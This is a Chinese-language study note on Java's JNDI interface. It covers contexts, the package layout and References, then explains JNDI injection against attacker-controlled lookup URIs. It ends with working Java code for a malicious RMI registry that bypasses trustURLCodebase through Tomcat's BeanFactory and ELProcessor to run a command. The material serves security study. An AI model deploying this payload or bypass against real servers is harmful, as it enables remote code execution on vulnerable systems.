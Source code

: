 ```yaml
---
title: "JNDI"
author: ["4shen0ne"]
tags: ["java"]
draft: false
---
```


> Java 命名和目录接口（Java Naming and Directory Interface，缩写 JNDI），是 Java 的一
> 个目录服务应用程序接口（API），它提供一个目录系统，并将服务名称与对象关联起来，
> 从而使得开发人员在开发过程中可以使用名称来访问对象。

根据 wiki 的描述，JNDI 全称为 Java Naming and Directory Interface，也就是 Java 命名和
目录接口。既然是接口，那么就必定有其实现，而目前我们 Java 中使用最多的基本就是 rmi
和 [ldap]({{< relref "ldap.md" >}}) 的目录服务系统。而命名的意思就是，在一个目录系统，它实现了把一个服务名称和
对象或命名引用相关联，在客户端，我们可以调用目录系统服务，并根据服务名称查询到相
关联的对象或命名引用，然后返回给客户端。而目录的意思就是在命名的基础上，增加了属
性的概念，我们可以想象一个文件目录中，每个文件和目录都会存在着一些属性，比如创建
时间、读写执行权限等等，并且我们可以通过这些相关属性筛选出相应的文件和目录。而
JNDI 中的目录服务中的属性大概也与之相似，因此，我们就能在使用服务名称以外，通过一
些关联属性查找到对应的对象。

总结的来说：JNDI 是一个接口，在这个接口下会有多种目录系统服务的实现，我们能通过名
称等去找到相关的对象，并把它下载到客户端中来。


## Context 上下文 {#context-上下文}

Context 是一组“名称－对象”映射的集合，不同的 context 有自己的命名约定，通常一个
context 对象都会提供 lookup、bind、unbind 和 list 操作用来管理命名列表，并且一个
context 的名称可以映射到另一个具有相同命名约定的 context 对象中（子上下文）

{{< figure src="../.images/Context_上下文/2021-12-06_10-41-49_screenshot.png" >}}


## JNDI 架构 {#jndi-架构}

{{< figure src="../.images/JNDI_架构/2021-12-06_10-44-25_screenshot.png" >}}

JNDI 通过以下 5 个包组成：

1.  javax.naming
2.  javax.naming.directory
3.  javax.naming.ldap
4.  javax.naming.event
5.  javax.naming.spi


## JNDI References {#jndi-references}

在 JNDI 服务中，RMI 服务端除了直接绑定远程对象之外，还可以通过 References 类来绑定一
个外部的远程对象（当前名称目录系统之外的对象）。绑定了 Reference 之后，服务端会先
通过 Referenceable.getReference()获取绑定对象的引用，并且在目录中保存。当客户端在
lookup()查找这个远程对象时，客户端会获取相应的 object factory，最终通过 factory 类
将 reference 转换为具体的对象实例。

整个利用流程如下：

1.  目标代码中调用了 InitialContext.lookup(URI)，且 URI 为用户可控；
2.  攻击者控制 URI 参数为恶意的 RMI 服务地址，如：rmi://hacker_rmi_server//name；
3.  攻击者 RMI 服务器向目标返回一个 Reference 对象，Reference 对象中指定某个精心构造的 Factory 类；
4.  目标在进行 lookup()操作时，会动态加载并实例化 Factory 类，接着调用 factory.getObjectInstance()获取外部远程对象实例；
5.  攻击者可以在 Factory 类文件的构造方法、静态代码块、getObjectInstance()方法等处写入恶意代码，达到 RCE 的效果；

Tips：JNDI 查找远程对象时 InitialContext.lookup(URL)的参数 URL 可以覆盖一些上下文中
的属性，比如：Context.PROVIDER_URL


### 绕过高版本 jndi 限制 {#绕过高版本-jndi-限制}

trustURLCodebase 限制了应用加载远程 codebase 中的代码，在目标本地使用了 tomcat8+
或者 SpringBoot 1.2.x+ 的前提下可以利用 `org.apache.naming.factory.BeanFactory`

因为是本地 Factory, 不会被 trustURLCodebase 限制。在执行其 getObjectInstance 方
法时让它加载 ELProcessor 类并反射调用其 eval 方法执行命令

```java
System.out.println("Creating evil RMI registry on port 1097");
Registry registry = LocateRegistry.createRegistry(1097);

//prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
//redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
ref.add(new StringRefAddr("forceString", "x=eval"));
//expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','calc']).start()\")"));

ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
registry.bind("evilEL", referenceWrapper);
```
